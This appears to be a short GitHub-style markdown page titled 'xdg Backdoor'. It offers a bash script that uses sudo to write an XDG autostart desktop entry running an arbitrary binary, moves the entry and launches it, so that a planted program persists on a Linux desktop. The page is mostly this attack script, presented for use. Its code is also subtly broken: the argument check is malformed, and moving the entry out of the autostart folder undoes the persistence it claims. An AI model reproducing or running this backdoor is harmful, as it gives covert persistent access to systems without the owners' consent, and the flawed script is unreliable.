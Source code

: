 # xdg Backdoor

in linux systems with GUI desktop environments we can use the DE itself (which is a startup task as well) to place a backdoor on he system.

```
#!/bin/bash

if [ $1 -z ]
then
        echo "$0 <binary file>"
        exit 1
fi

HOME=$HOME
printf "[Desktop Entry]\nType=Application\nName=Shell\nExec=$HOME/$1\n" | sudo tee /etc/xdg/autostart/shell.desktop

sudo mv /etc/xdg/autostart/shell.desktop /usr/share/applications/shell.desktop

gtk-launch shell
```
